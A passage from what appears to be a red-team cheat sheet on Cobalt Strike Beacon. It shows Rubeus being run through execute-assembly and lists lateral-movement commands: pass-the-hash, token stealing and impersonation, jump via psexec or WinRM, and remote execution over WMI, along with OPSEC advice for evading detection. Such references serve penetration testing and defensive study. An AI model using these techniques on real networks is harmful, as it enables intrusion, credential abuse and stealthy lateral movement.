 ```powershell
beacon > execute-assembly [/path/to/script.exe] [arguments]
beacon > execute-assembly /home/audit/Rubeus.exe
[*] Tasked beacon to run .NET program: Rubeus.exe
[+] host called home, sent: 318507 bytes
[+] received output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.2 
```

## Lateral Movement

:warning: OPSEC Advice: Use the **spawnto** command to change the process Beacon will launch for its post-exploitation jobs. The default is rundll32.exe 

- **portscan:** Performs a portscan on a specific target.
- **runas:** A wrapper of runas.exe, using credentials you can run a command as another user.
- **pth:** By providing a username and a NTLM hash you can perform a Pass The Hash attack and inject a TGT on the current process. \
:exclamation: This module needs Administrator privileges.
- **steal_token:** Steal a token from a specified process.
- **make_token:** By providing credentials you can create an impersonation token into the current process and execute commands from the context of the impersonated user.
- **jump:** Provides easy and quick way to move lateraly using winrm or psexec to spawn a new beacon session on a target. \
:exclamation: The **jump** module will use the current delegation/impersonation token to authenticate on the remote target. \
:muscle: We can combine the **jump** module with the **make_token** or **pth** module for a quick "jump" to another target on the network.
- **remote-exec:** Execute a command on a remote target using psexec, winrm or wmi. \
:exclamation: The **remote-exec** module will use the current delegation/impersonation token to authenticate on the remote target.
- **ssh/ssh-key:** Authenticate using ssh with password or private key. Works for both linux and windows hosts.

:warning: All the commands launch powershell.exe

```powershell
Beacon Remote Exploits
======================
jump [module] [target] [listener] 

    psexec	x86	Use a service to run a Service EXE artifact
    psexec64	x64	Use a service to run a Service EXE artifact
    psexec_psh	x86	Use a service to run a PowerShell one-liner
    winrm	x86	Run a PowerShell script via WinRM
    winrm64	x64	Run a PowerShell script via WinRM

Beacon Remote Execute Methods
=============================
remote-exec [module] [target] [command] 

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI (PowerShell)

```